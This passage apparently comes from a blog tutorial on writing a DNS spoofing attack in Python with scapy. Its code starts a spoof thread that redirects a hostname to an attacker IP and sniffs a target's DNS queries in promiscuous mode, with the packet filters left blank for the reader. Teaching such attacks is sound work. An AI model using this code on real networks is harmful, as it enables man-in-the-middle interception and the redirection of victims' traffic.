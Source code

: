 We start out by initializing the DNS thread the same as we initialized the ARP spoof thread:

```python{numberLines: true}
hostnames = ['padraig.io']
evil_ip = '192.168.1.100'
dns_spoof_thread = threading.Thread(
    target=dns_spoof,
    args=(interface, hostnames, evil_ip, attacker_mac, target_ip, target_mac),
    daemon=True,
)
dns_spoof_thread.start()
dns_spoof_thread.join()
```

Next, we leverage scapy’s `sniff` function to look for the packets we want:

```python{numberLines: true}
def dns_spoof(
    interface: str,
    hostnames: List[str],
    redirect_ip: str,
    attacker_mac: str,
    target_ip: str,
    target_mac: str,
):
    def on_packet(packet):
      # Convert the qname query from byte string to string
      qname = packet.qd.qname.decode()
      if qname in hostnames:
          print(f"Got DNS request for {qname}")

    filter = ???
    lfilter = ???
    while True:
        sniff(
            prn=on_packet, # Callback function
            filter=filter, # Berkley Packet Filter string
            lfilter=lfilter, # Functional filter
            store=0, # Don't store any packets
            iface=interface,
            promisc=1, # Turn promiscuous mode on (sniff all the things!)
            count=0, # Only capture one packet at a time
        )
```

The question now becomes, what should `filter` and `lfilter` be set to? We can also reference Wikipedia for their entry on [DNS packet structure](https://en.wikipedia.org/wiki/Domain_Name_System), and also leverage our Wireshark capture of a DNS packet to know that we’re looking for:

- UDP packet
- Port 53
- Query: `padraig.io`
- Source MAC address: the target
- Destination MAC address: the attacker
